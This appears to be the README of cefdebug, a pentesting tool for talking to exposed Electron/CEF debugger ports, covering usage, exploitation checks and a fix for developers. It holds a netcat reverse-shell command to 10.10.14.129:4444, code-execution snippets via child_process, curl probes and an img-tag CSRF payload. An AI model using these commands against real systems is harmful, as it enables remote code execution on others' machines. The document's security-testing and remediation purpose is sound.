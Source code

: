 # cefdebug

This is a minimal commandline utility and/or reference code for using
libwebsockets to connect to an electron/CEF/chromium debugger.

You're probably thinking, "who would enable the debugger in shipping products?".
Well, it turns out just about everyone shipping electron or CEF has made this
mistake at least once.

In some configurations, you can pop a shell remotely just by making a victim
click a link.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=773

In older versions, you could pop a shell remotely using DNS rebinding.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1742

In current versions, you can compromise other local users or escape sandboxes.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1944

It happens so often, that I thought pentesters might find it useful to have some
code easily available to interact with them.

./cefdebug.exe --url ws://127.0.0.1:52582/64f4656a-4ca0-4f0e-b7af-ebed59beb79e --code “process.mainModule.require('child_process').exec('cmd.exe /c C:/Temp/nc64.exe 10.10.14.129 4444 -e cmd.exe')”

# Usage

First, scan the local machine

```
$ ./cefdebug.exe
[2019/10/04 16:18:56:7288] U: There are 3 tcp sockets in state listen.
[2019/10/04 16:18:56:7766] U: There were 1 servers that appear to be CEF debuggers.
[2019/10/04 16:18:56:7816] U: ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
```

Now you can send commands to that `ws://` URL.
ws://127.0.0.1:20792/dd9bb714-5903-4f7c-9435-36e473a5b916
```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
[2019/10/04 16:35:06:2645] U: >>> process.version
[2019/10/04 16:35:06:2685] U: <<< v10.11.0
```

Alternatively, you can start a simple interactive shell.

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
>>> ['hello', 'world'].join(' ')
[2019/10/04 16:36:31:0964] U: <<< hello world
>>> a = 1024
[2019/10/04 16:36:44:5250] U: <<< 1024
>>> a * 2
[2019/10/04 16:36:48:3005] U: <<< 2048
>>> quit
```

## h4x0r1ng

In general, if node is available, something like this might work:

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc').pid"
[2019/10/04 16:39:18:6464] U: >>> process.mainModule.require('child_process').exec('calc').pid
[2019/10/04 16:39:18:6523] U: <<< 18560
```

Otherwise, you will have to query what apis and objects are exposed. It is almost
certainly game over, as you can use any api the application itself can use.

### Known Examples

Here are a list of code snippets I've seen that allow code exec in different electron applications.

`process.mainModule.require('child_process').exec('calc')`

`window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")`

`require('child_process').spawnSync('calc.exe')`

`Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))`

### Notes
Here are things to test if you find a debugger.

* Does it prevent [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding)?

`$ curl -H 'Host: example.com' -si 'http://127.0.0.1:9234/json/list'`

🚨 If that works (i.e. json response), this is **remotely** exploitable. 🚨

Newer versions of chromium require that the Host header match `localhost` or an IP address to prevent this. If this works, the application you're looking at is based on an older version of chromium, and leaving the debugger enabled can be **remotely** exploited. You have found a critical vulnerability.

* Is the `new` command functioning?

`$ curl -si 'http://127.0.0.1:9234/json/new?javascript:alert(1)'`

🔥🚨 If that works (i.e. a json response), this is **easily** **remotely** exploitable. 🚨🔥

This command requires no authentication, and has no CSRF protection. Just `<img src=http://127.0.0.1:XXX/json/new?javascript:...>` in a website is enough to exploit it. This is a very critical vulnerability.

# Solution

If you maintain a CEF project and you've noticed you're vulnerable to this attack, you probably
need to change this setting in your `cef_settings_t` for production builds:

https://magpcss.org/ceforum/apidocs3/projects/(default)/_cef_settings_t.html#remote_debugging_port

In electron, it's possible you're doing something like:

`app.commandLine.appendSwitch('remote-debugging-port'...)`

If you're using node, perhaps you're using `--inspect` on child processes.

https://nodejs.org/de/docs/guides/debugging-getting-started/#security-implications

# Building

## Windows 

> If you don't want to build it yourself, check out the [releases](https://github.com/taviso/ctftool/releases) tab

I used [GNU make](http://gnuwin32.sourceforge.net/packages/make.htm) and Visual
Studio 2019 to develop `cefdebug`. 

If all the dependencies are installed, just typing `make` in a developer command
prompt should be enough.

I use the "Build Tools" variant of Visual Studio, and the only components I have
selected are MSVC, MSBuild, CMake and the SDK.

This project uses submodules for some of the dependencies, be sure that you're
using a command like this to fetch all the required code.

```
git submodule update --init --recursive
```
## Linux

The main depdencies are libwebsockets and libreadline.

On Fedora, try:

`yum install readline-devel libwebsockets-devel openssl-devel`

If the dependencies are intalled, try `make -f GNUmakefile.linux`

## Embedding

The code is intended to be simple enough to embed in other pentesting tools.

# Authors

Tavis Ormandy <taviso@gmail.com>

# License

All original code is Apache 2.0, See LICENSE file for details.

The following components are imported third party projects.

* [wineditline](http://mingweditline.sourceforge.net/), by Paolo Tosco.
  * wineditline is used to implement user friendly command-line input and
    history editing.
* [libwebsockets](https://libwebsockets.org), by Andy Green et al.
  * libwebsockets is a portable c implementation of HTML5 websockets.
